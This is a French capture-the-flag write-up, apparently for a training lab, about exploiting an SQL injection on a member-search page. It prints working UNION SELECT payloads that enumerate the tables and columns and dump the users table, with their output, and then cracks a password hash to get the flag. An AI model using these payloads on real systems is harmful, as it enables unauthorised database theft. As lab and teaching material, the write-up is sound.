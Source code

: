 # Member SQL injection

## Identification

Sur /index.php?page=member, on peut rechercher les membres par id. En testant on se rend compte que l'input n'est pas protégé et qu'on peut injecter du sql dans le where.
La requête SQL ressemble à ça: `SELECT first_name, surname FROM users where id_user = $id`

## Exploit

### Récupération des tables

On peut commencer par récupérer toute les tables présentes dans la database:
Input : `1 UNION SELECT 1, table_name FROM information_schema.tables`
Le `1,` ici permet simplement de récupérer autant de columns que dans le SELECT précédant (le SELECT du code d'index.php), c'est à dire 2 colonnes.
Output:
```
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
First name: 1
Surname : CHARACTER_SETS
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
First name: 1
Surname : COLLATIONS
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
First name: 1
Surname : COLLATION_CHARACTER_SET_APPLICABILITY

ETC...
```
Nous retrouvons le nom des tables dans la colonne `surname`
On remarque que la table `users` est présente, et nous allons nous conentrer dessus

### Récupération des colonnes de la table `users`

Il faut maintenant récupérer les colonnes de la table `users`:
Input: `1 UNION SELECT table_name, column_name FROM information_schema.columns`
(Ici, pas besoin du `1,` car nous récupérons déjà 2 colonnes)
Output (avec un ctrl+f sur "users"):
```
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : user_id
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : first_name
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : last_name
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : town
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : country
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : planet
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign
```
Pareil ici, on récupère toutes les colonnes de la table `users` dans `surname`.

### Récupération de toutes les infos utilisateurs

Il nous suffit maintenant de récupérer toute les données contenues dans la table `users`.
Comme nous récupérerons ici beaucoup de colonnes et que nous ne pouvons normalement qu'en récuperer que 2 avec le `UNION`, on doit utiliser un `concat()` pour concaténer la sortie de plusieurs colonnes en une seule. Pour la clareté, on ajouter un `\n`  entre chaque colonne:
Input: `1 union select 1, concat(user_id, 0x0a, first_name, 0x0a, last_name, 0x0a, town, 0x0a, country, 0x0a, planet, 0x0a, Commentaire, 0x0a, countersign) from users`
Output:
```
ID: 1 union select 1, concat(user_id, 0x0a, first_name, 0x0a, last_name, 0x0a, town, 0x0a, country, 0x0a, planet, 0x0a, Commentaire, 0x0a, countersign) from users 
First name: 1
Surname : 3
Joseph
Staline
Moscou
Russia
Earth
????? ????????????? ?????????
e083b24a01c483437bcf4a9eea7c1b4d

ID: 1 union select 1, concat(user_id, 0x0a, first_name, 0x0a, last_name, 0x0a, town, 0x0a, country, 0x0a, planet, 0x0a, Commentaire, 0x0a, countersign) from users 
First name: 1
Surname : 5
Flag
GetThe
42
42
42
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28

ETC...
```
On remarque qu'un `user` nommé `Flag` existe, un hash est présent dans la colonne `countersign` et des instructions sont présentes dans la colonne `Commentaire`

### Récupérer le flag

Avec une rapide recherche internet, on découvre que `5ff9d0165b4f92b14994e5c685cdce28` est un md5, et une fois déchiffré, nous donne `FortyTwo`.
Il nous suffit de le lower puis de le sha256 : `sha256(fortytwo) = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

